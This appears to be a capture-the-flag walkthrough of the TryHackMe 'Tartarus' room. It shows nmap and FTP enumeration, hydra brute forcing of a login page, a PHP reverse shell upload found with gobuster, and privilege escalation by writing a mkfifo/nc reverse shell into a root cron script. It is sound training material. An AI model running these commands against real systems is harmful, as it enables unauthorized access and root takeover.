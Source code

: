 # Tartarus

[<img src=".Images/tartarus.png" height="199">](https://tryhackme.com/room/tartaraus)

*"This is a beginner box based on simple enumeration of services and basic privilege escalation techniques."* -[csenox](https://tryhackme.com/p/csenox)

1. [Scan/Enumeration](#scan/enumeration)
2. [Gain Shell](#gain-shell)
3. [Privilege Escalation](#privilege-escalation)

******

## [Scan/Enumeration]

We can start by doing an nmap scan.

`nmap -A -oN tartarus.nmap <ip>`

![tartarus-1](.Images/tartarus-1.png)

We have an FTP on port 21, SSH service on port 22 and Apache web server on port 80. The results say "Anonymous FTP login allowed". Let's connect to FTP anonymously. We can download the files with the get command.
User: anonymous
Pass: blank

`ftp <ip>`

![tartarus-2](.Images/tartarus-2.png)

We found a file named test.txt. We can try to navigate inside the shared directory on FTP.

`cd ..`
`cd ...`

![tartarus-3](.Images/tartarus-3.png)

We found another file called yougotgoodeyes.txt. Let's check these files.

![tartarus-4](.Images/tartarus-4.png)

/sUp3r-s3cr3t should be a website directory. Now we can start checking the website. If we look at the /sUp3r-s3cr3t directory, we can see that there is a login page. We can try bruteforce here, but first, let's try looking at the robots.txt file.

![tartarus-5](.Images/tartarus-5.png)

We found /admin-dir directory.

![tartarus-6](.Images/tartarus-6.png)

Let's download credentials.txt and userid file. The credentials.txt file looks like a password list and the userid file looks like a list of usernames. We can use these files to bruteforce the login page. We will use the hydra tool for bruteforce.

First we need to find out what kind of request we sent. We can go to the / sUp3r-s3cr3t directory, open the Inspect Element section and go to the Network section. Now we can try to login with random credentials. After doing this, we will see a POST request in the Network section. We can right click on this request and click Edit and Resend. Here, the Request Body field at the bottom right of the screen gives the information we need. [These are valid for firefox.](https://bentrobotlabs.wordpress.com/2018/04/02/web-site-login-brute-forcing-with-hydra/)

`hydra -L userid -P credentials.txt <IP> http-post-form "/sUp3r-s3cr3t/authenticate.php:username=^USER^&password=^PASS^:F=Incorrect"`

![tartarus-7](.Images/tartarus-7.png)

******

## [Gain Shell]

We can now login to the site using this information.

![tartarus-8](.Images/tartarus-8.png)

Here is a page where we can upload files. We can try upload [php_reverse_shell](https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php). We can download the file and upload it after we write our own IP and port(49th and 50th lines). 

![tartarus-9](.Images/tartarus-9.png)

We uploaded the file. We need to run the file to get a shell. To run the file, we need to find where it is. We will do directory scan with gobuster to find it. I will use [common.txt](https://github.com/v0re/dirb/blob/master/wordlists/common.txt) list.

`gobuster dir -u http://<IP>/sUp3r-s3cr3t/ -w common.txt`

![tartarus-10](.Images/tartarus-10.png)

If we look at the images directory, we will see that there is a directory named uploads in it.

![tartarus-11](.Images/tartarus-11.png)

We will find the file we uploaded in it.

![tartarus-12](.Images/tartarus-12.png)

If we run the file while listening to the port with nc, we will get a shell.

`nc -nvlp <PORT>`

![tartarus-13](.Images/tartarus-13.png)

******

## [Privilege Escalation]

First of all, let's make shell more beautiful.

`export TERM=xterm`

`python -c 'import pty; pty.spawn("/bin/bash")'`

![tartarus-14](.Images/tartarus-14.png)

If we look at the /etc/crontab file, we will see that the file named cleanup.py runs periodically by using root privileges.

![tartarus-15](.Images/tartarus-15.png)

Let's look inside the file named cleanup.py.

![tartarus-16](.Images/tartarus-16.png)

The file regularly cleans the /home/cleanup/ directory. When we look at the file with the "ls -la" command, we see that we have write authority. So if we change the file with a reverse shell and wait a bit, we can get a shell with root privilege. I will write python reverse shell into the file with the echo command.

`echo 'import os; os.system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc **<IP>** **<PORT>**  >/tmp/f")' > cleanup.py`

![tartarus-17](.Images/tartarus-17.png)

Now we need to listen to the port with nc and wait. When the file runs again, we will get a shell with root privilege.

![tartarus-18](.Images/tartarus-18.png)

And now we are root user.
